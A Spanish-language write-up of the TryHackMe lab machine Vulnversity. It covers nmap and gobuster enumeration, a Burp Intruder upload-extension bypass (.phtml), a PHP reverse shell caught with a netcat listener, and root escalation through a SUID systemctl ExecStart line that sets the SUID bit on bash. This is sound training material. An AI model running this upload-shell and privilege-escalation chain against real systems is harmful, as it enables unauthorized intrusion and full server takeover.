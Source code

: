 ```yaml
---
title: Tryhackme - Vulnversity
author: nik0
date: 2020-11-14 14:10:00 +0800
categories: [Write up]
tags: [THM,Vulnversity]
---
```

![Vulnversity logo!](/assets/img/sample/vulnlogo.png)


## Introducción

En este write up veremos la máquina Vulnversity de Tryhackme, veremos temas cómo reconocimiento activo, ataques a aplicaciones web y escalación de privilegios explotando binarios.

## Reconocimiento

Primero haremos un escaneo con nmap para ello utilizamos el comando ```sudo nmap -sC -sV "ip"``` y el output que nos muestra es el siguiente:

```terminal
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-13 21:03 -03
Nmap scan report for 10.10.128.154
Host is up (0.27s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m19s, deviation: 2h53m12s, median: 19s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2020-11-13T19:04:45-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-14T00:04:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.43 seconds
```
Primero probé con el puerto 21, pero no habia ningún exploit para esa versión, luego intenté conectarme para ver si tenía acceso anónimo y nada, después seguí con ssh, y tampoco habían exploits disponibles para esa versión, continué con samba buscando recursos compartidos y estaba todo sin acceso con SMBMAP, luego termino con el puerto 3333 que es http y si pongo la ip de la máquina con el puerto me sale esto:

![1](/assets/img/sample/1.jpeg)

Indagando más a fondo en la página (mirando el codigo fuente etc) me di cuenta de que es solo frontend así que empecé a enumerar directorios con gobuster

## Localizando directorios con Gobuster

Con el comando ```gobuster dir -u http://10.10.128.154:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150``` enumeramos los directorios escondidos que puede tener la página web, OJO: no es recomendable aumentar los threads porque se podría hacer una denegación de servicio o te podría bloquear un firewall, en todo caso con la herramienta W4fw00f se puede saber si un sitio tiene firewall o no, finalmente este es el resultado de Gobuster:

```terminal
2020/11/13 21:43:55 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
===============================================================
```
El directorio ```/internal``` se ve interesante y si ponemos esto en la url del sitio nos lleva a esto:

![2](/assets/img/sample/2.png)

Encontramos una subida de archivos, donde podemos subir una shell y así posteriormente tener conexión reversa con el servidor, o un backdoor así que primero vamos a abrir burpsuite para saber que tipo de extension es admitida para poder subir nuestro backdoor

![3](/assets/img/sample/3.png)

ahí subimos el archivo test.jpg y lo interceptamos con burpsuite y ahora lo mandamos a intruder para posteriormente hacer fuzzing al objetivo

![4](/assets/img/sample/4.png)

Luego nos vamos a payloads y cargamos las posibles extensiones que permitirían la subida del archivo, pueden usar la lista que ustedes les guste más

![5](/assets/img/sample/5.png)

Y ejecutamos el ataque, el resultado es el siguiente:

![6](/assets/img/sample/6.png)

Podemos ver que aceptó la extensión .phtml porque cambió la longitud y si se renderiza via web igual se puede ver

Ya que encontramos el directorio donde se pueden subir archivos, tenemos que encontrar en donde se alojan para poder ejecutar nuestro backdoor

Así que utilizamos nuevamente Gobuster para enumerar directorios en el mismo de /internal

El comando a utilizar sería ```gobuster dir -u http://10.10.6.52:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100```

Output:
```terminal
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.6.52:3333/internal
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/13 22:44:15 Starting gobuster
===============================================================
/uploads (Status: 301)
/css (Status: 301)
```
Podemos ver que hay un subdirectorio llamado /uploads y se ve así:

![7](/assets/img/sample/7.png)

Ahora procedemos a subir nuestra shell

## Comprometiendo el servidor web

usamos el comando ```cp /usr/share/webshells/php/php-reverse-shell.php shell.phtml``` para mover nuestra shell y poner la extensión .phtml (OJO: hay que editar la shell y cambiar la ip y el puerto!)

luego la subimos en /internal

ponemos a la escucha netcat con el comando ```nc -lnvp TUPUERTO``` en mi caso era el 443 así que era ```nc -lnvp 443```

lo ejecutamos en /uploads

si todo salió bien, debería aparece algo así en la terminal:

![8](/assets/img/sample/8.png)

ponemos el comando ```uname -a``` para imprimir información sobre el SO

Para mayor comodidad en la terminal se puede hacer una shell TTY interactiva (Buscar en Google)

Ahora que ya estamos dentro, podemos ir escalando privilegios

## Escalando Privilegios

Primero lo que vamos a hacer es usar este comando ```find / -perm -u=s -type f 2>/dev/null``` para buscar desde la raíz el permiso para usuario SUID, porque queremos explotar permisos SUID? porque hay algunos binarios por ej: passwd se ejecuta como root y eso se puede explotar para poder ir escalando privilegios localmente.


Hay una página que se llama GTFOBins, sirve para encontrar binarios Unix que ayuda para hacer una escalada de privilegios, vamos a utilizar esta página para poder comparar los binarios de la máquina actual y los de GTFObins para así poder filtrarlos (Pueden hacer un script o hacerlo manualmente)

Entonces nos da por resultado /bin/systemctl

Ahora que ya sabemos el binario que vamos a explotar, lo buscamos en GTFObins y seguimos las instrucciones:

![GTFO](/assets/img/sample/GTFO.png)

La primera línea ```sudo sh -c 'cp $(which systemctl) .; chmod +s ./systemctl'``` la vamos a ignorar, no la necesitamos por el momento, ahora lo que vamos a hacer es editar la línea de comando ```ExecStart=/bin/sh -c "id > /tmp/output"``` para poder ejecutar /bin/bash, ya que si hacemos un ls -la /bin/bash podemos notar que este se ejecuta cómo root entonces cuando nosotros ejecutemos bash, este se lanzará cómo usuario root, entonces la línea de código sería así:  ```ExecStart=/bin/sh -c "chmod +s /bin/bash"```

Ahora en la consola escribimos bash -p y si salió todo bien, debería aparecer algo así: 

![10](/assets/img/sample/10.png)

Y ahora que ya tenemos root, también podemos sacar el user.txt ;)















